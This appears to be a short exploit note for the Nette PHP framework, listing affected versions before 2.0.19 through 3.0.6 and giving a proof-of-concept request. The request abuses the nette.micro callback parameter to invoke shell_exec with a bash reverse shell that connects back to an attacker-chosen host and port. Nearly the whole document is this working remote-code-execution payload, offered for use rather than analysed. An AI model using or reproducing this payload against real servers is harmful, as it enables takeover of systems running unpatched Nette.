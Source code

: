 Affected version:
-----------------

Nette versions before 2.0.19, 2.1.13, 2.2.10, 2.3.14, 2.4.16, 3.0.6

POC:
----

`/nette.micro?callback=shell_exec&cmd=bash%20-i%20>&%20/dev/tcp/'+lhost+'/'+lport+'0>&1`